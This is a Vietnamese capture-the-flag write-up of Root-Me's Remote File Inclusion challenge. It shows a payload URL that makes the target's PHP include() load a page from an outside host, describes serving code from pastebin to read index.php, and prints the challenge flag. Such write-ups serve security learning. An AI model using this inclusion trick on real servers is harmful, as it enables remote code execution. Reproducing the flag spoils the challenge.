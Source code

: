 # Write up challenge Remote File Inclusion


Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)<br>
</br>

Yêu cầu của challenge 

<img src="./img/1.png" alt="normal_acc_TRAbID"/>

Thử một giá trị khác cho tham số `lang`. Ta thấy code sử dụng hàm `include()` và nối thêm `_lang.php` vào phía sau.

<img src="./img/2.png" alt="normal_acc_TRAbID"/>

Dựa vào tên challenge ta thực hiện khai thác RFI. Thử include 1 file từ website khác:

        http://challenge01.root-me.org/web-serveur/ch13/?lang=https://vnexpress.net/?

<img src="./img/3.png" alt="normal_acc_TRAbID"/>

Thành công! Ok bây giờ ta sẽ viết 1 đoạn code đơn giản từ trang https://pastebin.com/ để get nội dung file index.php:

<img src="./img/4.png" alt="normal_acc_TRAbID"/>      

Copy đường dẫn past vào và xem kết quả. Có một chút thay đổi là 2 trang Français | English xuất hiện 2 lần.

<img src="./img/5.png" alt="normal_acc_TRAbID"/>      

Inspect xem thử ta thấy flag:

<img src="./img/6.png" alt="normal_acc_TRAbID"/>      

Có được flag. Submit thành công 

<img src="./img/7.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** R3m0t3_iS_r3aL1y_3v1l

